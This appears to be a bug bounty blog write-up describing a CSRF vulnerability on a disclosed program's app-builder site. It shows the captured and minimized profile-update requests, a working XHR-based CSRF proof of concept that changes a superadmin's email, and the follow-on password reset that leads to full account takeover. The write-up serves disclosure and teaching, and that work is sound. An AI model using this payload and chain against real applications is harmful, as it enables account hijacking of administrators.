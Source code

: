 ```yaml
---
layout: post
title: Compromise complete application with CSRF attack
---
```


I was looking for responsible disclosure programs and came across a program, let's call it example.com

I started enumeration, the website is basically used to create applications which will be deployed as a subdomain on the website domain, like if I created an application test then URL to the application will be https://test.example.com
<!--more-->
I created an application that has URL https://test.example.com/, the first thing that I noticed is there was no Email verification

During enumeration, I came across the Profile update page from where the user’s name can be changed but Email field was disabled on the frontend

When I intercepted the request the email parameter was there and from that, the email can be successfully updated but it is very low impact vulnerability so I keep looking on the website

On the same request, I found that there was no CSRF token, before creating a CSRF POC and testing, I started minimizing the request parameters, The request had Content-Type: multipart/form-data, and had JSON data

## Initial Request
```
POST /server/api/users/1 HTTP/1.1
Host: test.example.com
Connection: close
Content-Length: 2298
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY0xsvHS604Lx0QVR
Origin: https://test.example.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://test.example.com/client/app/build/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: --COOKIES HERE--

------WebKitFormBoundaryY0xsvHS604Lx0QVR
Content-Disposition: form-data; name="model"

{"id":"1","client_id":null,"user_type":"superadmin","company_name":null,"first_name":"Test1","last_name":"test","address_1":null,"address_2":null,"city":null,"state":null,"zip":null,"phone":null,"email":"test@test.com","cluster_id":null,"external_user_id":null,"additional_details_1":null,"additional_details_2":null,"additional_details_3":null,"enable_io_tool_module":false,"enable_lead_management_module":false,"lead_notification_frequency":"real_time","has_light_logo":false,"has_dark_logo":false,"default_home_page":null,"io_tool_notification_frequency":null,"country":null,"timezone":null,"status":"active","hipaa_acknowledgement_timestamp":null,"creation_time":1590667071,"report_language":null,"last_login_timestamp":1590667155,"show_welcome_modal":true,"show_services_overview":"default","show_categories_overview":"default","role_id":null,"io_tool_role_id":null,"client_group_id":null,"reporting_profile_id":"1","client_name":null,"client_reporting_status":null,"cluster_name":null,"override_dashboard_page_ids":null,"role_name":null,"client_group_name":null,"reporting_profile_name":"Default Profile","user_image_id":"7163","user_image_metadata":{"asset_id":"9c356861ae9896fe449102b0ba4ec207","public_id":"test/lwlwwyjdvzpmwwnqnr4g","version":1590667197,"version_id":"bb39724d650bd6495eb44b8d845b989f","signature":"04db16438eb5c620e22aa692d0f946e2cf2d07cf","width":64,"height":64,"format":"png","resource_type":"image","created_at":"2020-05-28T11:59:57Z","tags":[],"bytes":341,"type":"upload","etag":"d6b69986122a6445c9614dcbe5ea83b1","placeholder":false,"url":"http://res.cloudinary.com/tapclicks/image/upload/v1590667197/test/lwlwwyjdvzpmwwnqnr4g.png","secure_url":"https://res.cloudinary.com/tapclicks/image/upload/v1590667197/test/lwlwwyjdvzpmwwnqnr4g.png"},"user_type_display":"Super Admin","display_name":"Test test","lead_notification_frequency_display":"Real Time","status_display":"Active","timegroup":"hourly","formatted_creation_time":"May 28, 2020 11:57 AM","formatted_last_login_timestamp":"May 28, 2020 11:59 AM","can_be_edited":true,"can_be_deleted":false,"can_be_copied":false,"can_be_deleted_tooltip":null,"user_id":"1"}
------WebKitFormBoundaryY0xsvHS604Lx0QVR--
```

## Minimized Request
```
POST /server/api/users/1 HTTP/1.1
Host: test.example.com
Connection: close
Content-Length: 281
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY0xsvHS604Lx0QVR
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: --COOKIES HERE--

------WebKitFormBoundaryY0xsvHS604Lx0QVR
Content-Disposition: form-data; name="model"

{"id":"1","user_type":"superadmin","first_name":"Test1","last_name":"test","email":"test4@test.com","status":"active","reporting_profile_id":"1"}
------WebKitFormBoundaryY0xsvHS604Lx0QVR--
```

Then I created a POC code for exploiting thing with [XHR](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)

## CSRF POC
```html
<script>
   function submitRequest()
   {
     var xhr = new XMLHttpRequest();
     xhr.open("POST", "https://test.example.com/server/api/users/1", true);
     xhr.setRequestHeader("Accept", "application/json, text/plain, */*");
     xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9,hi;q=0.8");
     xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=----WebKitFormBoundaryY0xsvHS604Lx0QVR");
     xhr.withCredentials = true;
     var body = "------WebKitFormBoundaryY0xsvHS604Lx0QVR\r\n" + 
       'Content-Disposition: form-data; name="model"\r\n\r\n'+
       '{"id":"1","user_type":"superadmin","first_name":"Test1","last_name":"test","email":"testing123@test.com","status":"active","reporting_profile_id":"1"}\r\n'+
       "------WebKitFormBoundaryY0xsvHS604Lx0QVR--\r\n";
     var aBody = new Uint8Array(body.length);
     for (var i = 0; i < aBody.length; i++)
       aBody[i] = body.charCodeAt(i); 
     xhr.send(new Blob([aBody]));
   }
</script>
<form action="#">
   <input type="button" value="Submit request" onclick="submitRequest();" />
</form>
```

Opened this CSRF POC in the same browser where the user is logged in, and click on Submit and the user email will be updated to testing123@test.com

After that, the password can be changed with the Forgot Password function and as the POC is for superadmin the complete application can be compromised

## List of Vulnerability helped in Exploitation

* No email verification

* Improper Validation on Server site — Email Update

* No Cross-Site Requests Forgery Protection — Anti CSRF token missing
